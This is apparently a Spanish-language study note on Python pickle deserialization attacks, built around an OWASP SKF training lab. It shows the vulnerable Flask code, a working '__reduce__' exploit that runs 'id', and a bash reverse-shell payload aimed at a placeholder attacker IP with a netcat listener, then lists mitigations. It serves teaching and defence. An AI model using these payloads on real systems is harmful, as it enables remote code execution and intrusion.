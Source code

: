 # 💥 Ataques de Deserialización

> Parte de [[OWASP]]  
> La teoría viene de [[Ataques de Deserialización]]
> Glosario relacionado: [[Serialización y Deserialización]]

## ¿Qué es Pickle?

Pickle es un módulo de Python que permite la **serialización y deserialización** de objetos Python. Serializar significa convertir un objeto en una secuencia de bytes que puede ser almacenada o transmitida, mientras que deserializar es el proceso inverso, reconstruyendo el objeto original a partir de esos bytes.

Pickle es particularmente útil para:
- Guardar el estado de un programa
- Transmitir objetos complejos a través de la red
- Almacenar estructuras de datos complejas

Sin embargo, Pickle tiene un **grave problema de seguridad**: al deserializar datos no confiables, puede ejecutar código arbitrario. Esto ocurre porque Pickle reconstruye objetos ejecutando funciones específicas durante el proceso de deserialización.

**Advertencia de seguridad**: Nunca deserialices datos que no sean de confianza con Pickle. Para datos no confiables, considera formatos más seguros como JSON.

---
# Práctica: Laboratorio de Deserialización Insegura

## Configuración del Entorno

Podemos usar el laboratorio de SKFLabs, ya sea clonando el repositorio o usando Docker:

```sh
docker pull blabla1337/owasp-skf-lab:des-pickle
```

Luego desplegamos el contenedor con port forwarding:

```sh
docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle
```

Explicación de los flags:
- `-d`: Ejecuta el contenedor en segundo plano (detached mode)
- `-p`: Especifica el port forwarding (host:container)
- `-i`: Mantiene STDIN abierto incluso si no está conectado (interactive)
- `-t`: Asigna una pseudo-TTY (terminal)

## Análisis del Código Vulnerable

El código fuente de la aplicación vulnerable:

```python
import pickle
from flask import Flask, request, render_template

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/")
def start():
        user = {'name': 'ZeroCool'}
        with open('filename.pickle', 'wb') as handle:
            pickle.dump(user, handle, protocol=pickle.HIGHEST_PROTOCOL)
        with open('filename.pickle', 'rb') as handle:
            a = pickle.load(handle)
        return render_template("index.html", content = a)

@app.route("/sync", methods=['POST'])
def deserialization():
        with open("pickle.hacker", "wb+") as file:
            att = request.form['data_obj']
            attack = bytes.fromhex(att)
            file.write(attack)
            file.close()
        with open('pickle.hacker', 'rb') as handle:
            a = pickle.load(handle)
            print(attack)
            return render_template("index.html", content = a)

@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```

### Vulnerabilidad Identificada

1. La aplicación acepta datos serializados a través del parámetro `data_obj` en la ruta `/sync`
2. Convierte estos datos de hexadecimal a bytes y los escribe en un archivo
3. Deserializa el contenido del archivo usando `pickle.load()` sin ninguna validación
4. La función `__reduce__` de Pickle permite ejecutar código arbitrario durante la deserialización

## Explotación de la Vulnerabilidad

### Ejemplo Básico: Ejecución de Comandos

```python
import pickle
import os
import binascii

class Evil:
    def __reduce__(self):
        return (os.system, ("id",))

if __name__ == "__main__":
    evil = Evil()
    evil_pickled = pickle.dumps(evil)
    
    # Enviar el objeto malicioso al servidor
    print(binascii.hexlify(evil_pickled))
```

Al enviar el payload hexadecimal resultante, el servidor ejecutará el comando `id`. Aunque el laboratorio solo muestra un `0` (código de estado), esto confirma la ejecución remota de comandos.

### Escalando a Reverse Shell

Podemos crear una reverse shell usando el famoso one-liner:

```python
import pickle
import os
import binascii

class Evil:
    def __reduce__(self):
        return (os.system, ('bash -c "bash -i >& /dev/tcp/[IP_ATACANTE]/[PUERTO] 0>&1"',))

if __name__ == "__main__":
    evil = Evil()
    evil_pickled = pickle.dumps(evil)
    
    # Enviar el objeto malicioso al servidor
    print(binascii.hexlify(evil_pickled))
```

Pasos para la explotación:
1. Sustituir `[IP_ATACANTE]` y `[PUERTO]` por tus valores
2. Ejecutar el script para generar el payload
3. Poner en escucha tu máquina con netcat: `nc -lvnp [PUERTO]`
4. Enviar el payload hexadecimal a la aplicación vulnerable
5. Recibirás una shell interactiva en tu máquina atacante

## Mitigaciones

1. **Evitar deserializar datos no confiables**: Usar formatos alternativos como JSON
2. **Validación estricta**: Si es imprescindible usar Pickle, implementar controles estrictos
3. **Sandboxing**: Ejecutar el proceso de deserialización en un entorno aislado
4. **Firmas digitales**: Verificar la integridad de los datos serializados

## Conclusión

Los ataques de deserialización son extremadamente peligrosos ya que pueden llevar a la ejecución remota de código. Pickle, aunque potente, no debe usarse con datos no confiables. Siempre preferir alternativas seguras y aplicar el principio de mínimo privilegio.